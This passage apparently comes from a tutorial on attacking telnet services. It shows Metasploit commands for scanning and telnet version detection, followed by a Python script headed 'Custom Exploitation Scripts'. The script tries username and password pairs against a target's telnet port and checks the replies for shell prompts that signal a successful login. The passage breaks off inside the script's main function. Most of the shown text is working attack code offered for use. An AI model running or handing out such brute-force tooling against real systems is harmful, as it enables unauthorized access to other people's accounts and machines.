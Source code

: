 ```bash

# Execute scan
run
```

#### Version Detection
```bash
# Use telnet version scanner
use auxiliary/scanner/telnet/telnet_version
set RHOSTS <target-ip>
run
```

### Method 4: Custom Exploitation Scripts

#### Python Brute Force Script
```python
#!/usr/bin/env python3
import socket
import sys
import time
from itertools import product

def telnet_login(target, port, username, password):
    try:
        # Connect to telnet
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.settimeout(10)
        sock.connect((target, port))
        
        # Read banner
        banner = sock.recv(1024).decode()
        
        # Send username
        sock.send(f"{username}\n".encode())
        time.sleep(1)
        
        # Read password prompt
        response = sock.recv(1024).decode()
        
        # Send password
        sock.send(f"{password}\n".encode())
        time.sleep(2)
        
        # Check for successful login
        result = sock.recv(1024).decode()
        sock.close()
        
        # Look for success indicators
        if any(indicator in result.lower() for indicator in ['$', '#', '~$', 'welcome']):
            return True
        else:
            return False
            
    except Exception as e:
        return False

def main():
    if len(sys.argv) != 2:
        print("Usage: python3 telnet_brute.py <target-ip>")
        sys.exit(1)
    
    target = sys.argv[1]
```
